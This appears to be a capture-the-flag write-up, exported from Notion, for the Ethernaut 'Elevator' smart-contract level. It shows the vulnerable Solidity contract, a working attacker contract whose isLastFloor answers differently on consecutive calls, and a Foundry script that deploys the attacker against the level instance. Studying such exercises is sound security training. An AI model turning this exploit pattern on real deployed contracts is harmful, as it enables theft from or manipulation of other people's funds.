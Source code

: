 ```yaml
---
title: "Elevator"
date: "2024-02-05"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
weight: 12
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/11"
next: "Privacy-0141c59931824d74a8311099eb338d5d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "59c41c69-4afa-45c6-8e60-3000da840a2e"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-05"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-14T16:51:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 12
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/11"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Elevator"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator"
          href: null
  url: "https://www.notion.so/Elevator-59c41c694afa45c68e603000da840a2e"
  public_url: null
UPDATE_TIME: "2024-02-23T20:54:38.765Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


---


title: Elevator
weight: 4
type: docs
next: re-entrancy
prev: privacy


[Level11](https://ethernaut.openzeppelin.com/level/11) - ⭐⭐


---


This elevator won't let you reach the top of your building. Right?


### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract Building {
  Elevator public elevator;
  bool lastFloor;

  function installElevator(address _elevator) public {
    elevator = Elevator(_elevator);  
  }

  function isLastFloor(uint) public returns (bool) {
    if (lastFloor == false) {
      lastFloor = true;
      return false;
    }
    return true;
  }

  function attack(uint _floor) public {
    elevator.goTo(_floor); 
  }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Building} from "../src/11.sol";

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_11");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Elevator elevator = Elevator(addr);

        Building building = new Building();
        building.installElevator(addr);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        building.attack(0);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        vm.stopBroadcast();

    }
}
```


You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state.
Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.


An alternative way to solve this level is to build a view function 
which returns different results depends on input data but don't modify 
state, e.g. `gasleft()`.

